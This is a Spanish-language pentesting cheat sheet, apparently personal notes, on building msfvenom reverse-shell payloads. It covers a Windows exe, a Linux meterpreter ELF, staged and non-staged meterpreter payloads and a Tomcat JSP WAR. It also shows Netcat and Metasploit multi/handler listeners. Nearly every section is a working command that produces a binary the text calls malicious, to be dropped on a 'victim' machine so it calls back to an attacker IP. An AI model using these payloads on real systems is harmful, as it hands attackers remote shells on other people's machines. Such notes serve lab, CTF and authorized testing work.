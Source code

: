 ## Msfvenom ❮❯

Tags: #Msfvenom #Metasploit #ReverShell #Payloads #Netcat #Windows 

### Netcat
* Nos sirve para crear un binario malicioso, para después usar Metasploit y obtener la ReverShell para maquinas Windows 

* [MsfVenom-Payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP y en la maquina victima lo podemos descargar desde el navegador colocando la IP del servicio compartido

* Nos ponemos en escucha por Netcat:
```bash 
❯ rlwrap nc -nlvp 443
```
* Ejecutamos el binario que subimos a Windows y ganamos acceso

### Linux Meterpreter

```python 
# Esto funciona cuando tenemos el usuario y passwd de un usuario normal

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f elf > hola.elf

	# p = Payload
	# f = Formato
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
```

### Payload Staged 
* Nos sirve para crear un binario malicioso, para después usar Metasploit y obtener la ReverShell para maquinas Windows 

```python
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o reverse.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP
Ahora en Metasploit hacemos lo siguiente:

* Para verificar la DB del **Metasploit**
```python 
❯ msfdb run  # Actualiza la DB de Metasploit
```

* Dentro de Metasploit colocamos lo siguiente y así nos pondremos en escucha:
```Metasploit
❯ use exploit/multi/handler
❯ set payload windows/x64/meterpreter/reverse_tcp
❯ show options
❯ set LHOST 172.0.0.1
❯ set LPORT 443
❯ run
```

* Ejecutamos el binario que subimos a Windows

* Dentro de la maquina **Windows**
```bash
❯ getuid    # Nos muestra el usuario del servidor
❯ shell     # Obtenemos uns Shell en Metasploit para poder ejecutar comandos
```



### Payload Non-Staged
* Nos sirve para crear un binario malicioso, para después usar Metasploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o reverse.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```
Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP
Ahora en Metasploit hacemos lo siguiente:

* Para verificar la DB del **Metasploit**
```bash 
❯ msfdb run  # Actualiza la DB de Metasploit
```

* Dentro de metasploit colocamos lo siguiente y asi nos pondremos en escucha:
```Metasploit
❯ use exploit/multi/handler
❯ set payload windows/x64/meterpreter_reverse_tcp
❯ show options
❯ set LHOST 172.0.0.1
❯ set LPORT 443
❯ run
```

* Ejecutamos el binario que subimos a Windows

* Dentro de la maquina **Windows**
```bash
❯ getuid    # Nos muestra el usuario del servidor
❯ shell     # Obtenemos uns Shell en Metasploit para poder ejecutar comandos
```


## Tomcat 

```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```